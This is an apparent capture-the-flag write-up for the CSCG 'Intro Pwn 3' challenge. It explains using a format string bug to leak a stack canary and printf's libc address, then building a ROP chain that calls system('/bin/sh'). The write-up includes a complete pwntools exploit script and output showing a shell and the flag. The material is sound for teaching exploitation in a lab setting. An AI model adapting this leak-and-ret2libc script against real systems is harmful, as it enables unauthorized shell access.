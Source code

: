 # Intro Pwn 3

Like in the other two Intro Pwn challenges we are given a binary and it's source code to work with.
There is not mutch different to the last challenge the only thing that changed is the `WINgardium_leviosa` function:
```c
void WINgardium_leviosa() {
    printf("They has discovered our secret, Nagini.\n");
    printf("It makes us vulnerable.\n");
    printf("We must deploy all our forces now to find them.\n");
    // system("/bin/sh") it's not that easy anymore.
}
```
It doesn't call `system` anymore and this might seem like a minor change, but is actually a lot more difficult now. Because the source code is almost the same like last time we can use the same strategy to gain rip control, but what do we do then. We cannot just call that one function, that will give us a shell. Of cause we could call `system` with the `/bin/sh` string, but for this to work we need to get the randomized address of `system`, because there is no plt entry for it (The code never uses the system function so the compiler didn't include a `system@plt`). If we want to call `system`, then we have to call the system function inside libc and we have to pass the `/bin/sh` string to it. And we can solve both of these problems in one go.

Let's say we have got the address of `printf` in the libc binary, then we could calculate the offset of it to `system`, but this only works if we have got the exact libc, that is used on the server and that's where the Dockerfile comes in.
We can pull up our own Docker image and check the libc used and I just hoped that it would work.

That's the plan, but this plan would only work if we got the actual address of some libc function in the binary, but how can we do this?

We have got a format string vulnerability in our binary, but we already "used" it to get a return pointer to defeat the random addresses for the main binary.
But as we have got rip control we can just call the `welcome` function, which introduces the bug, again.

But what do we do with a format expoit? We want to get the address of `printf` in the binary.

And here the `plt` comes in. The format string `%s` is used to print a string, but we can use it to read arbitrary memory. The fact, that the buffer, that is used in the `printf` is stored makes that possible.    

## The Plan


* We do the exploit from last time and get rip control.
* With that we call `welcome` to trigger the `gets` and `printf` again
* We input a string that looks like this `%XX$s <padding><address of printf@got.plt>`
* The result will be the data at `printf@got.plt`, which is the address of `printf` in libc.
* We then calculate the addresses of `system` and `/bin/sh` in the libc binary (yes the libc binary has the string `/bin/sh` in it)
* We use the `AAAAAAAA` function again to get rip control with a ropchain looking like this `<pop rdi><addr of binsh><addr of system>`
(The string argument of system is stored in rdi and every c binary has a `pop rdi` rop gadget)


## The Script


```python
from pwn import *


p = process("./pwn3")
#p = remote("hax1.allesctf.net",9102)



print(p.readline())

#p.sendline(b"CSCG{NOW_GET_VOLDEMORT}")
p.sendline(b"CSCG{THIS_IS_TEST_FLAG}")


print(p.readline())
p.sendline("|".join(["%p"]*85))
p.readline()
p.readline()
p.readline()
leaks = p.readline().decode("utf-8").split("|")

input()
cannery = p64(int(leaks[38],16))

leak_ret = int(leaks[40],16)
printf_got = leak_ret + 0x20121a

welcome =  leak_ret - 0x14f
ret =      leak_ret -  0x38
pop_rdi =  leak_ret +  0x75
AAAAAAAA = leak_ret -  0xc6

print(f"leaked ret : {hex(leak_ret)}")
print(f"printf {hex(printf_got)}")

#First rip control. Ropchain <welcome><AAAAAAAA>
p.sendline(b"Expelliarmus\0" +  b"A" * cyclic_find(b"cnaa") + cannery + p64(ret) + p64(ret) + p64(welcome) + p64(AAAAAAAA))

print(p.readline())
print(p.readline())

# Format string exploit again: we use `%s` to get the data at the address `printf_got`
p.sendline(b"%7$s" + b"\0" * 4 +  p64(printf_got))


print(p.readline())
print(p.readline())
p.readline()
printf = int.from_bytes(p.read(6), "little")

libc_base = printf - 0x0000000000064d70

system = libc_base + 0x00000000000554e0
bin_sh = libc_base + 0x1b6613

print(hex(printf))
print(hex(system))
print(hex(bin_sh))
print(hex(pop_rdi))
print(p.readline())

# Second ropchain `<pop_rdi><addr of binsh><system>` a lot of `ret`s to align the stack
p.sendline(b"Expelliarmus\0" +  b"A" * cyclic_find(b"cnaa") + cannery + p64(ret)+ p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(ret) +p64(ret)+p64(ret) + p64(system))

p.interactive()
```
And we get:
```bash
$ python pwnit.py
[+] Opening connection to hax1.allesctf.net on port 9102: Done
b'Enter the password of stage 2:\n'
b'+10 Points for Gryffindor!Enter your witch name:\n'

leaked ret : 0x55e79ae98d7e
printf 0x55e79b099f98
b'~ Protego!\n'
b'Enter your witch name:\n'
b'\xe2\x94\x8c\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x90\n'
b'\xe2\x94\x82 You are a Gryffindor! \xe2\x94\x82\n'
0x7f679aef6d70
0x7f679aee74e0
0x7f679b048613
0x55e79ae98df3
b' enter your magic spell:\n'
[*] Switching to interactive mode
~ Protego!
$ cat flag
CSCG{VOLDEMORT_DID_NOTHING_WRONG}
```

This was the last challenge that I solved in the CSCG and it is very rushed, I'm sorry if the writeup wan't that clear or if I forgot to explain something
